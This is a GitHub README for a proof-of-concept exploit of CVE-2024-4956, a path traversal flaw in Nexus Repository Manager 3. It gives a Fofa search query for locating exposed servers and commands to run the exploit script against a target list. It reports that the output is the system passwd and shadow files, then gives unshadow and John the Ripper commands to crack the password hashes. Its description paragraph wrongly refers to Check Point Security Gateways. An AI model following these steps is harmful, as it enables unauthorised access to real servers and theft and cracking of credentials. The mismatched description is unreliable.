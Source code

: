 # CVE-2024-4956

[![My Shop](https://img.shields.io/badge/My%20Shop-verylazytech-%23FFDD00?style=flat&logo=buy-me-a-coffee&logoColor=yellow)](https://buymeacoffee.com/verylazytech/extras)
[![Medium](https://img.shields.io/badge/Medium-%40verylazytech-%231572B6?style=flat&logo=medium&logoColor=white)](https://medium.com/@verylazytech)
[![Github](https://img.shields.io/badge/Github-verylazytech-%23181717?style=flat&logo=github&logoColor=white)](https://github.com/verylazytech)
[![Buy Me A Coffee](https://img.shields.io/badge/Buy%20Me%20A%20Coffee-verylazytech-%23FFDD00?style=flat&logo=buy-me-a-coffee&logoColor=yellow)](https://buymeacoffee.com/verylazytech)

# POC - CVE-2024–4956 - Nexus Repository Manager 3 Unauthenticated Path Traversal

Potentially allowing an attacker to read certain information on Check Point Security Gateways once connected to the internet and enabled with Remote Access VPN or Mobile Access Software Blades. A security fix that mitigates this vulnerability is available.

**Read about it** — [CVE-2024-4956](https://nvd.nist.gov/vuln/detail/CVE-2024-4956)

> **Disclaimer**: This Proof of Concept (POC) is made for educational and ethical testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## Getting Started

### Finding Targets

To find potential targets, use Fofa (similar to Shodan.io):

- **Fofa Dork**: `header="Server: Nexus/3.53.0-01 (OSS)"`

![Alt text](POC1.png)

First, clone the repository:

```bash
git clone https://github.com/verylazytech/CVE-2024-4956
```

Next chose your target and add it to list.txt file in this format:

- https://ip_address

Run the Exploit:

```bash
python3 CVE-2024-4956.py -l list.txt
```
The output is passwd and shadow files that found:

![Alt text](POC2.png)


Now after you find both file passwd & shadow you can try crack the hash with JohnTheRipper, after running the exploit you have 2 files, passwd & shadow, so you can merge them into one file and try crack them (I used rockyou.txt but it can be any password wordlist):
```bash
unshadow passwd shadow > unshadowed.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
